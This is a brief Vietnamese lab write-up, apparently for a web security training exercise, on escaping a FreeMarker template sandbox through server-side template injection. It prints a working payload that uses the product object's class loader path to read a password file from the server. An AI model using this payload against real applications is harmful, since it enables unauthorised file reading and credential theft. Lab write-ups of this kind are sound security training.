




## Server-side template injection in a sandboxed environment.

1. Sau khi đăng nhập, sử dụng tính năng eidt template. Nhận thấy template freemaker gọi đến product object. 

2. Search được trên github có repo PayloadAllTheThing có chứa payload bypass sandbox environment cho freemaker

3. Craft payload để thực hiện mục đích
- Payload: ``${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}``

4. Convert chuỗi dec sang ascii 

